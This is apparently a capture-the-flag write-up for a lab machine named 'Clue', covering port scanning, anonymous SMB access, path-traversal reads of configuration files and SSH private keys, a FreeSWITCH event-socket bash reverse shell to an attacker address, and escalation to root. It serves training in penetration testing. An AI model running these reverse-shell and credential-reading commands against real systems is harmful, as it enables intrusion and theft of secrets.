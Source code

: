 # Clue - Writeup

## Initial Enumeration

### Port Scanning
A comprehensive port scan revealed several open services:
```
22/tcp   open  ssh              OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
80/tcp   open  http             Apache httpd 2.4.38
139/tcp  open  netbios-ssn      Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn      Samba smbd 4.9.5-Debian (workgroup: WORKGROUP)
3000/tcp open  http             Sinatra web framework
8021/tcp open  freeswitch-event FreeSWITCH mod_event_socket
```

### SMB Enumeration
I tested for anonymous SMB access and found it was allowed:
```bash
smbclient -L //192.168.178.240/ -N
```

This revealed a share named "backup" that could be accessed without authentication:
```bash
smbclient //192.168.178.240/backup -N
```

I mounted the share to examine its contents but found only default installation files. Although there were some configuration files with credentials, these appeared to be the default ones.

### Web Enumeration
The Apache server on port 80 returned a 403 Forbidden response. However, port 3000 was hosting a Cassandra Web Framework application. Initial exploration of this application revealed it was an interface for managing a Cassandra database.

## Gaining Initial Access

### Cassandra Web Framework Vulnerability
Further research revealed that the Cassandra Web Framework is vulnerable to a local file read vulnerability. I exploited this to read sensitive files on the system:

```bash
curl -s "http://192.168.178.240:3000/resource/system.schema_keyspaces/../../../../../../proc/self/cmdline"
```

This revealed potential credentials for the user cassie: `SecondBiteTheApple330`

### FreeSWITCH Configuration
Using the same vulnerability, I targeted known configuration files for the FreeSWITCH service that was running on port 8021:

```bash
curl -s "http://192.168.178.240:3000/resource/system.schema_keyspaces/../../../../../../etc/freeswitch/autoload_configs/event_socket.conf.xml"
```

This disclosed FreeSWITCH credentials:
- **Username**: (default)
- **Password**: StrongClueConEight021

### FreeSWITCH Exploitation
FreeSWITCH's event socket interface on port 8021 is known to be vulnerable to command execution if you have valid credentials. I connected to it and executed commands:

```bash
nc 192.168.178.240 8021
auth StrongClueConEight021
bgapi system /bin/bash -c "bash -i >& /dev/tcp/192.168.45.183/4444 0>&1"
```

On my attack machine, I had a netcat listener waiting:
```bash
nc -lvnp 4444
```

This provided a shell as the freeswitch user.

## Lateral Movement

### Accessing User Cassie
From the freeswitch user, I enumerated other users on the system and discovered two accessible users: anthony and cassie. I attempted to switch to the cassie user using the password found earlier:

```bash
su - cassie
Password: SecondBiteTheApple330
```

This was successful, providing me with access as the cassie user.

## Privilege Escalation

### Sudo Permissions
I checked the sudo permissions for the cassie user:

```bash
sudo -l
```

The output revealed that cassie could start the Cassandra service as root:
```
User cassie may run the following commands on clue:
    (root) NOPASSWD: /usr/bin/cassandra
```

### Exploiting Cassandra to Read Root Files
Since cassie could start Cassandra as root, and the Cassandra Web Framework had a file read vulnerability, I could chain these together to read files as root:

1. Started Cassandra as root:
```bash
sudo /usr/bin/cassandra
```

2. Waited for the service to fully start up.

3. Used the file read vulnerability to read sensitive files as root:
```bash
curl -s "http://192.168.178.240:3000/resource/system.schema_keyspaces/../../../../../../root/.ssh/id_rsa"
```

This didn't yield an SSH key for root, but further enumeration revealed an SSH key in anthony's directory:

```bash
curl -s "http://192.168.178.240:3000/resource/system.schema_keyspaces/../../../../../../home/anthony/.ssh/id_rsa"
```

### Root Access
I tried using anthony's SSH key to access the root account:

```bash
chmod 600 anthony_key
ssh -i anthony_key root@192.168.178.240
```

This was successful, providing full root access to the system.

```bash
root@clue:~# id
uid=0(root) gid=0(root) groups=0(root)
```

